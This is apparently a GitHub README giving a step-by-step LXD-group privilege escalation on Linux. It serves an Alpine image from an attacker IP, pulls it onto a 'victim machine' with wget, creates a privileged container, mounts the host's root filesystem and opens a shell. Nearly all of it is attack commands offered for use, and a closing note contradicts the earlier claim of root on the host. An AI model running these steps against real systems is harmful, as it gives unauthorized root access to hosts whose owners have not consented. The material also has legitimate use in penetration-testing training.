








# Lxd-Privilege-Escalation-in-Linux
In this writeup we will cover how a member of a local “lxd” group can instantly escalate the privileges to root on the host operating system.


## Follow the Steps:

#### First, run the id command to check whether your user belongs to the lxd group or not.
 
```
id
```


#


#### If lxd is listed, then continue.
#### Download a this Alpine Linux container image from github.
```
git clone https://github.com/zaaraZiof0/Lxd-Privilege-Escalation-in-Linux.git
```


#


#### Now share this image file alphine-v3.13-x86_64-20210218_0139.tar.gz to the victim machine.
```
python3 -m http.server 80
```


#


#### Download the image file with wget command.
```
wget 10.8.9.235/alpine-v3.13-x86_64-20210218_0139.tar.gz
```


#


#### Now import this lxd container into lxd environment and give it an alias.
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```


#


#### Display a list of all the images stored in the local LXD image store
```
lxc image list
```


#


#### Now run the following command one by one.
```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```


#


#### Navigate to /mnt/root to access the host's filesystem with root privileges
```
cd /mnt/root
```



#### Now here we have full control within the container.

#

### Note: Being root inside a container doesn’t automatically translate to having root access on the host system, as containers are designed to isolate processes.

#### Happy Hacking…. | ZAARA
